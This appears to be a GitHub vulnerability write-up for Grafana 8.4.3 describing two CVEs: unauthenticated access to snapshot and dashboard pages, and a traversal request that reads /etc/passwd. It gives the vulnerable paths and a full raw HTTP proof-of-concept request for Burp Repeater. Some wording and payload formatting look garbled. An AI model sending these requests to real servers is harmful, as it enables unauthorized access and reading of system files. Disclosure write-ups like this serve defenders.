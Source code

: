 # grafana
grafana 8.4.3 (b7d2911ca)

# First point - CVE-2022-32276

##Unauthenticated and authenticated users can send a false request for snapshot query using random key parameters, having access to the system dashboard area by going through the login page.
•	Rated version: 8.4.3 (b7d2911ca)
•	
Access the system the user is directed to the system home page, as image 1
![image](https://user-images.githubusercontent.com/28454566/171639021-9b0da9c7-837d-4f86-be73-a123eae5de9b.png)

Image 1: login form 


It has been verified that an unauthenticated user knowing the vulnerable directories can enter random ID value which allows unauthenticated access to the hospitalized system pages.
Parameter used:
/dashboard/snapshot/*?orgId=0
/invite/:
![image](https://user-images.githubusercontent.com/28454566/171639130-8e408037-3e65-4b15-a679-88e2f1987aea.png)

Image 2: Unauthenticated access to snapshot list

![image](https://user-images.githubusercontent.com/28454566/171639178-52a2f5d5-f57c-49b9-9258-2f60a3b6403a.png)

Image 3: Unauthenticated access to the dashboard menu


![image](https://user-images.githubusercontent.com/28454566/171639388-3b17937c-e1f5-448f-b5cb-f26722af95f9.png)

Image 4: Unauthenticated access to the filter menu


# Second point - CVE-2022-32275

##
•	Rated version: 8.4.3 (b7d2911ca)
•	Injection of parameters in http request.
It has been verified that by injecting the following request into the login form the system returns internal page.

![image](https://user-images.githubusercontent.com/28454566/171640044-cf2029dc-8598-44f9-87ed-c6c09a152212.png)

Image 5: login form 



Viewing the request in burpsuite
![image](https://user-images.githubusercontent.com/28454566/171640173-5795e0b0-0f31-4cac-8ae5-5d413b0637d1.png)

Image 6: Intercepting the request by burpsuite


Change the request by adding /{{constructor.constructor'/.. /.. /.. /.. /.. /.. /.. /.. /etc/passwd?orgId=1 , encode : /dashboard/snapshot/%7B%7Bconstructor.constructor'/.. /.. /.. /.. /.. /.. /.. /.. /etc/passwd?orgId=1 HTTP/1.1



![image](https://user-images.githubusercontent.com/28454566/171640263-15364ef7-8741-40e2-98dd-dee80b44b28d.png)

Image 7: Request changed before submission to server


![image](https://user-images.githubusercontent.com/28454566/171640314-914a29f3-2f98-4ff2-9dc7-eaf7896e1d56.png)


Image 8: Data returned from the tampered request


### POC 2
Send the request to the Burpsuite Repeater  function and change the request header to:
GET /dashboard/snapshot/%7B%7Bconstructor.constructor'/.. /.. /.. /.. /.. /.. /.. /.. /etc/passwd?orgId=1 HTTP/1.1
Host: <grafana_host>:3000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:99.0) Gecko/20100101 Firefox/99.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-BR,en;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close-up
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache


![image](https://user-images.githubusercontent.com/28454566/171640452-7d292f9f-c35e-4067-b199-2ae9dea9ecbd.png)

Image 9: Changing the request in the repeater function.


![image](https://user-images.githubusercontent.com/28454566/171640507-360ce5d1-4486-4f29-adc4-a047e5655bfc.png)


Image 10: Unauthenticated access 







